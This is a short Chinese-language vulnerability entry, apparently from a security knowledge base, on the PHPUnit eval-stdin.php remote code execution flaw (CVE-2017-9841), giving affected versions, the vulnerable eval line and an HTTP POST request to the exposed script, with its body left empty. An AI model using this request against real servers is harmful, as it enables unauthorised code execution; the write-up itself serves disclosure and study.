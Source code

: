 ```yaml
---
title: PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 开发框架漏洞
 - PHPUnit
---
```


# PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841 

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

> [!NOTE]
>
> PHPUnit < 5.6.3

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](/img/20210924015446846695.png)

